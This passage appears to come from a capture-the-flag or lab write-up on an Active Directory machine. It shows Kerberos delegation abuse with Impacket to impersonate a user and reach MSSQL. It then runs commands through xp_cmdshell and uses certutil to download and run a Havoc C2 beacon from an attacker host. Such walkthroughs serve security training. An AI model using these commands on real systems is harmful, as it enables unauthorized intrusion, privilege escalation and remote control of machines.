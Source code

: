 We have to find users that are related to mssql, in case have admin privileges. There are 2 users, where `t1_c.fowler` is in `Protected Users` group

![](7.png)

Thus, we can only impersonate `t1_m.winters`
```
└─$ proxychains4 -q getST.py -dc-ip dc.tengu.vl -spn MSSQLSvc/sql.tengu.vl 'tengu.vl/gMSA01$:@sql.tengu.vl' -hashes :<REDACTED>  -impersonate 't1_m.winters'

Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[-] CCache file is not found. Skipping...
[*] Getting TGT for user
[*] Impersonating t1_m.winters
[*] Requesting S4U2self
[*] Requesting S4U2Proxy
[*] Saving ticket in t1_m.winters@MSSQLSvc_sql.tengu.vl@TENGU.VL.ccache
```

Now we can connect using ticket
```
└─$ KRB5CCNAME=t1_m.winters@MSSQLSvc_sql.tengu.vl@TENGU.VL.ccache proxychains4 -q impacket-mssqlclient -k sql.tengu.vl
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(SQL): Line 1: Changed database context to 'master'.
[*] INFO(SQL): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (160 3232) 
[!] Press help for extra shell commands
SQL (TENGU\t1_m.winters  dbo@master)> 
```

The user has exec permissions
```
SQL (TENGU\t1_m.winters  dbo@master)> exec xp_cmdshell 'whoami'
output          
-------------   
tengu\gmsa01$   

NULL      
```

We will download the havoc beacon 
```
SQL (TENGU\t1_m.winters  dbo@master)> exec xp_cmdshell 'certutil.exe -f -urlcache http://10.8.4.147:8000/demon.exe c:\programdata\demon.exe'
output                                                
---------------------------------------------------   
****  Online  ****                                    

CertUtil: -URLCache command completed successfully.   

NULL                                                  

SQL (TENGU\t1_m.winters  dbo@master)> exec xp_cmdshell 'c:\programdata\demon.exe'

           
```

